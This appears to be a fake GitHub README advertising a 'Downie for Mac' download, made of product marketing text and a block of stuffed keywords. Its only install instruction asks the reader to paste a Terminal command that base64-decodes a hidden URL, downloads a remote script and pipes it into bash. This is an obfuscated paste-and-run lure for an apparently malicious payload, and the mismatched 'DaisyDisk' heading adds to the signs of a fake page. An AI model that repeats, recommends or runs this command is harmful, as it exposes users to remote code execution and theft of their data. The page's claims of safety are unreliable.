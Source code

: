# Downie for Mac Download — Ultra HD Video Downloader | Fast & Secure macOS Tool

![Downie Screenshot 1](https://software.charliemonroe.net/assets/images/custom/downie_permute.png)  

---

### 🔽 Download DaisyDisk for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```  

---

## What is Downie for Mac?  

**Downie for Mac** is a high-end video downloading tool designed exclusively for macOS, delivering unmatched support for thousands of video platforms. Ideal for students, professionals, or everyday users, Downie simplifies video downloads to just a single click.  

While most video downloaders come with tedious configurations or restricted capabilities, Downie excels with support for ultra-HD resolutions (4K/8K), bulk downloads, and intelligent quality selection. It seamlessly connects with your browser, enabling instant downloads from YouTube, Vimeo, TikTok, and more than 1,000 additional sites—all with minimal effort.  

Built natively for macOS and fully optimized for Intel and Apple Silicon processors, Downie operates efficiently in the background without impacting your Mac’s performance.  

![Downie Screenshot 2](https://i.ytimg.com/vi/rZG7uBtoNtg/maxresdefault.jpg)  

---

## Core Features & Advantages  

- 🎥 **4K & 8K Downloads** – Grab videos in stunning ultra-high definition  
- ⚡ **Bulk Downloading** – Queue and save multiple videos at once  
- 🔍 **Auto-Quality Selection** – Detects and downloads the optimal resolution  
- 🌐 **Browser Compatibility** – Integrates with Safari, Chrome, and Firefox  
- 🏷 **Clean Output** – No watermarks or branding on downloaded files  
- 🔄 **File Conversion** – Export as MP4, MOV, or extract audio (MP3)  

Whether you’re preserving hard-to-find videos, gathering assets for creative work, or just want offline access to entertainment, Downie combines power and simplicity for effortless downloads.  

---

## 🔍 Keywords  

Downie for Mac, Downie Mac Download, Downie for Mac Download, Downie Mac, Downie Download Mac, Downie Download for Mac, Downie full version, Mac Download Downie, Download Mac Downie, Download Downie Mac, Download Downie for Mac
